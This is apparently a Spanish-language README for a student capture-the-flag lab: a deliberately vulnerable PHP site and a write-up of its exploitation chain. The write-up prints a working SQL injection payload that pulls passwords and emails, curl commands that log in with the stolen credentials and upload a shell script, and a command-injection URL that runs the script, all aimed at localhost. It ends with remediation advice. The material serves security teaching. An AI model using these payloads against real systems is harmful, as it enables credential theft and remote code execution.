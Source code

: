 Este proyecto ha acabado con mi salud mental

poner los archivos en home
abrir una terminal
HACER:
chmod +x setup......
./setup.....

chmod +x automatizado......
./automatizado.....


### WriteUp para la solución del sistema vulnerable y explotación de RCE

#### Descripción general del sistema

Este trabajo consiste en la creación de un sistema web vulnerable basado en PHP, con un fallo de seguridad que permite ejecutar código remoto (RCE) en el servidor web, en este caso bajo el usuario `www-data`, que es el mismo usuario que ejecuta el servicio Apache. Este sistema tiene una serie de fallos concatenados que permiten la explotación del sistema para obtener una shell con privilegios elevados. Además, el sistema está configurado para almacenar dos flags: una en `/home/www-data/user.txt` (flag de usuario) y otra en `/root/root.txt` (flag de root).

#### Objetivos del trabajo

1. **Vulnerabilidad Web (RCE)**:
   Se crea un sistema web vulnerable con PHP, donde se permite la ejecución de código malicioso a través de la concatenación de varios fallos de seguridad, como un fallo en el manejo de entradas no sanitizadas o inyecciones de comandos. 
   
2. **Elevación de Privilegios**:
   Se ha utilizado para la elevación de privilegios:
   - **gtfobins**: Se proporciona una configuración que explota una vulnerabilidad de una herramienta estándar (por ejemplo, un binario como `python`, `gcc`, etc.) para elevar los privilegios de `www-data` a root.

3. **Generación y almacenamiento de flags**:
   Las flags se generan aleatoriamente y se almacenan en los archivos `/home/www-data/user.txt` y `/root/root.txt`. Estos archivos contienen las flags que se deben capturar una vez que se exploten las vulnerabilidades.

#### Paso 1: Instalación del sistema vulnerable

El sistema está configurado para que se ejecute automáticamente en el arranque. Se utilizan los siguientes componentes:

1. **Apache2 y PHP**: El servidor Apache se instala y configura para que sirva el sistema web. El script `putFlags.sh` configura Apache para que se ejecute en el usuario `www-data` y genera las flags de usuario y root.

2. **Vulnerabilidades en PHP**:
   El sistema web se encuentra vulnerable a inyecciones SQL y ejecución de comandos. El primer paso consiste en acceder a la URL que contiene un fallo de inyección SQL para extraer las credenciales de los usuarios del sistema.

#### Paso 2: Explotación de la vulnerabilidad (RCE)

1. **Explotación de Inyección SQL**:
   En el script `automatizado.sh`, se realiza una solicitud HTTP con una inyección SQL en el parámetro `rover_id`:
   ```bash
   fetch_url="http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=%27e%27%20UNION%20SELECT%20fa.contrasena,%20fa.gmail,%201,%202,%203%20FROM%20final_usuarios%20fa,%20final_administradores%20f%20WHERE%20f.usuario_id%20=%20fa.id"
   ```
   La inyección SQL utiliza `UNION SELECT` para combinar las tablas `final_usuarios` y `final_administradores` y extraer las contraseñas (`fa.contrasena`) y los correos electrónicos (`fa.gmail`) de los usuarios. Esta información se extrae utilizando `jq` para manejar la respuesta JSON y extraer los valores de las credenciales.

2. **Login de administrador**:
   Los datos obtenidos de la inyección se usan para realizar un login automático con `curl`, enviando las credenciales extraídas del ataque:
   ```bash
   curl -X POST \
        -d "email=$rover_id" \
        -d "contrasena=$photo_id" \
        -d "es_administrador=on" \
        -c cookies.txt \
        "$login_url"
   ```
   Esto permite al atacante obtener acceso como administrador en la web.

3. **Subida de archivo malicioso**:
   Una vez autenticado, el atacante sube un archivo malicioso (`gdb.sh`) al servidor mediante una solicitud POST:
   ```bash
   curl -X POST -F "profile_picture=@gdb.sh" http://localhost/web/final/dashmin/upload.php
   ```
   Este archivo contiene un script que intentará ejecutar comandos en el servidor, probablemente con la intención de obtener una shell.

4. **Ejecución de comando**:
   El script luego realiza una llamada a la URL que ejecuta comandos en el servidor (`files_url_root`) para ejecutar el archivo malicioso subido. El comando intenta cambiar permisos del archivo `gdb.sh` para hacerlo ejecutable y luego lo ejecuta:
   ```bash
   files_url_root="http://localhost/web/final/dashmin/list_uploads.php?comando=ls%20uploads%3B%20cd%20uploads;chmod%20744%20gdb.sh;./gdb.sh"
   ```

#### Paso 3: Elevación de privilegios

1. **Elevación usando gtfobins**:
   Alternativamente, se puede usar una herramienta como `gtfobins` para explotar una vulnerabilidad en un binario del sistema que permita a `www-data` ejecutar comandos como root. Esto depende de la configuración del sistema y de los permisos del binario.

#### Paso 4: Captura de las flags

Una vez que se obtiene acceso con privilegios elevados (por una vulnerabilidad gtfobins), el atacante puede leer las flags desde los archivos `/home/www-data/user.txt` y `/root/root.txt`. Esto se realiza mediante la ejecución de comandos como `cat` o cualquier otro método para acceder a esos archivos.

- **Flag de usuario**: Se encuentra en `/home/www-data/user.txt`.
- **Flag de root**: Se encuentra en `/root/root.txt`.

#### Paso 5: Solución a la vulnerabilidad

Para solucionar las vulnerabilidades, se deben tomar varias medidas, como:

1. **Sanitización de entradas**: El sistema debe validar y sanitizar todas las entradas de los usuarios para prevenir inyecciones SQL y de comandos.
2. **Configuración de permisos**: Se deben revisar y ajustar los permisos de los binarios críticos y de los archivos, para que no sea posible la ejecución de comandos arbitrarios por parte del usuario `www-data`.
3. **Desactivar funcionalidades inseguras**: Desactivar funciones de PHP o cualquier otra funcionalidad que permita la ejecución de código arbitrario.

#### Conclusión

Este trabajo muestra cómo un sistema web vulnerable puede ser explotado utilizando inyecciones de SQL, subida de archivos maliciosos y técnicas de escalada de privilegios, como el uso de vulnerabilidades de buffer overflow o configuraciones inseguras de binarios. La explotación de estas vulnerabilidades permite obtener acceso completo al sistema, incluyendo la obtención de las flags de usuario y root.

Este tipo de ejercicios es clave para aprender sobre la seguridad informática, ya que permite identificar y remediar vulnerabilidades comunes en aplicaciones web y sistemas.

